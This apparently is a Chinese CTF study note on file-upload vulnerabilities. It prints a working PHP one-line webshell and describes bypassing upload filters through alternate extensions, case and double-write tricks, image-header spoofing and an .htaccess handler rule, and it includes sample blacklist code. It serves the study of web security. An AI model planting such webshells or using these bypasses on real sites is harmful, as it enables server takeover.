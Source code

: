 ```yaml
---
title: ctf-文件上传
date: 2023-09-27 09:32:01
tags:
categories:
  - [ctf-web]
  - 渗透
---
```

# 一句话木马与文件上传

## webshell

webshell就是以 asp、aspx、php、jsp 或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp、aspx、php或jsp后门文件与网站web服务器目录下正常的网页文件混在一起，然后就可以使用浏览器来访问该后门文件了，从而得到一个命令执行环境，以达到控制网站服务器的目的。

最普遍的一句：

```php
<?php @eval($_POST['shell']);?>
```

其中eval就是执行命令的函数，$_POST[‘shell’]就是接收的数据。eval函数把接收的数据当作php代码来执行。这样我们就能够让插了一句话木马的网站执行我们传递过去的任意php语句。这便是一句话木马的强大之处。

## 绕过前端

### burp抓包

抓包改文件名

## 绕过后端

### 特殊解析绕过

如果黑名单规则不严谨，在某些特定的环境中，某些特殊的后缀名仍然会被当做php文件解析。

不同后缀：Php|php2|php3|php4|php5|php6|php7|pht|phtm|phtml

也可尝试大小写绕过：

windows对大小写不敏感，linux对大小写敏感

### 双写绕过

以下为示例检测代码：

```php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
//code from ctfhub
```

### 文件头检测绕过

Method1:

上传一张图片，然后在尾部加上一句话木马（同样使用burpsuite）

问题:在传入一张正常图片，然后在burp里面拦截并尾部加上一句话木马后，显示上传成功，但是却无法读取，在前端访问显示error；最后删去了很长一段图片内容，再次上传，可以成功连接；

Method2:

将上传的一句话木马文件改名绕过前端：

muma.php--->muma.jpeg

![image-20230922102923688](https://s2.loli.net/2023/09/22/gpfAxnuyeXzh32j.png)

burp抓包，改回php后缀名，并且加上GIF89a(gif的文件头)

![image-20230922102655658](https://s2.loli.net/2023/09/22/2glOqDAMapuYI4P.png)

但是试了GIF8, 也可以上传成功(网上教程全部说的是添加GIF89a，可能全是抄的一家的吧)

![image-20230922111052350](https://s2.loli.net/2023/09/22/3vlMOEcDTFUymb5.png)

![image-20230922111145578](/Users/wufei/Library/Application Support/typora-user-images/image-20230922111145578.png)

GIF8---47494638  已经是文件头了 

常见图片文件头：

| 文件类型 | 后缀       | 文件头   | 文件尾   | 标志          |
| -------- | ---------- | -------- | -------- | ------------- |
| JPEG     | .jpg/.jpeg | FFD8FF   | FFD9     | JFIF          |
| PNG      | .png       | 89504E47 | AE426082 | PNG IEND IHDR |
| GIF      | .gif       | 47494638 | 003B     | GIT9a         |
| TIFF     | .tif/.tiff | 49492A00 | 4D4D2A00 | - II MM       |

### .htaccess解析

原理： 

- .htaccess 文件提供了针对目录改变配置的方法， 即在一个特定的文档目录中放置一个包含一条或多条指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过 Apache 的 AllowOverride 指令来设置。 
- htaccess 中有 # 单行注释符, 且支持 \拼接上下两行

```.htaccess
<FilesMatch "1.jpg">    
	SetHandler application/x-httpd-php 
</FilesMatch>
```

###  待补充。。。。